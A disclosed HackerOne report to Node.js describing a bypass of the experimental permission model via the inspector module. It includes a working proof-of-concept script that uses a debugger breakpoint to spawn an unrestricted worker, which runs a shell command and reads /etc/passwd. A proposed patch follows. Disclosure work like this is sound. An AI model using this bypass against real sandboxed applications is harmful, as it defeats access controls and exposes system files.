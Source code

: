 # Process-based permissions can be bypassed with the "inspector" module.  

## Report Details
- **Report ID**: 1962701
- **URL**: https://hackerone.com/reports/1962701
- **State**: Closed
- **Severity**: high
- **Submitted**: 2023-04-26T17:50:54.899Z
- **Disclosed**: 2023-07-20T20:58:32.838Z

## Reporter
- **Username**: mattaustin
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs

## Vulnerability Information
**Summary:**

Restrictions made with with the --experimental-permission flag can by bypassed with the built-in inspector module. 

**Description:** 

The Worker class  can take an argument (the kIsInternal Symbol) to create an "internal worker" which does not respect the process level restrictions. 

We cant access this Symbol('kIsInternal'); directly, however the [inspector module](https://nodejs.org/api/inspector.html) is not disabled when process level restrictions are in place.  "The node:inspector module provides an API for interacting with the V8 inspector."

If we attach inspector inside the Worker constructor before `new WorkerImpl` is created we can simply change the value of "isInternal". 

## Steps To Reproduce:

1. Create the following `bypass.js` file: 

```javascript
const { Session } = require('node:inspector/promises');

const session = new Session();
session.connect();

(async ()=>{
	await session.post('Debugger.enable');
	await session.post('Runtime.enable');

	global.Worker = require('node:worker_threads').Worker;
	
	let {result:{ objectId }} = await session.post('Runtime.evaluate', { expression: 'Worker' });
	let { internalProperties } = await session.post("Runtime.getProperties", { objectId: objectId });
	let {value:{value:{ scriptId }}} = internalProperties.filter(prop => prop.name == '[[FunctionLocation]]')[0];
	let { scriptSource } = await session.post("Debugger.getScriptSource", { scriptId });

	// find the line number where WorkerImpl is called. 
	const lineNumber = scriptSource.substring(0, scriptSource.indexOf("new WorkerImpl")).split('\n').length;

	// WorkerImpl will bypass permission for internal modules. We can inject the local var "isInternal = true" with a conditional breakpoint.
	await session.post("Debugger.setBreakpointByUrl", {
		lineNumber: lineNumber,
		url: "node:internal/worker",
		columnNumber: 0,
		condition: "((isInternal = true),false)"
	});

	new Worker(`
		const child_process = require("node:child_process");
		console.log(child_process.execSync("ls -l").toString());
		
		console.log(require("fs").readFileSync("/etc/passwd").toString())
	`, {
		eval: true,
		execArgv: [
			"--experimental-permission",
			"--allow-fs-read=*",
			"--allow-fs-write=*",
			"--allow-child-process",
			"--no-warnings"
		]
	});

})()
```

2. Run the following command :

``` bash
node --experimental-permission --allow-fs-read=$(pwd) bypass.js
```
---
If the policies were not bypassed we would expect to see something like: 

```
node --experimental-permission --allow-fs-read=$(pwd) safe.js
node:internal/child_process:1103
  const result = spawn_sync.spawn(options);
                            ^

Error: Access to this API has been restricted
``` 

## Supporting Material/References:
In my opinion inspector should be allowed when process level permissions are being enforced. 
I noticed there was already a flag: EnvironmentFlags::kNoCreateInspector. I took a shot at patching this  out unless ==inspect or --inspect-brk were used, but I didn't know if a more direct options like "--allow-inspector" would be preferred. 

  ``` diff
diff --git a/src/env.cc b/src/env.cc
index 571a8ed5ce..b5b7557bd1 100644
--- a/src/env.cc
+++ b/src/env.cc
@@ -791,6 +791,11 @@ Environment::Environment(IsolateData* isolate_data,
     // spawn/worker nor use addons unless explicitly allowed by the user
     if (!options_->allow_fs_read.empty() || !options_->allow_fs_write.empty()) {
       options_->allow_native_addons = false;
+      DebugOptions debug_options;
+      debug_options = options_->debug_options();
+      if (!debug_options.inspector_enabled || !debug_options.break_first_line) {
+        flags_ = flags_ | EnvironmentFlags::kNoCreateInspector;
+      }
       if (!options_->allow_child_process) {
         permission()->Apply("*", permission::PermissionScope::kChildProcess);
       }
```

## Impact

Permission Model is a mechanism for restricting access to specific resources during execution. This bypasses those restrictions.

## Attachments
No attachments
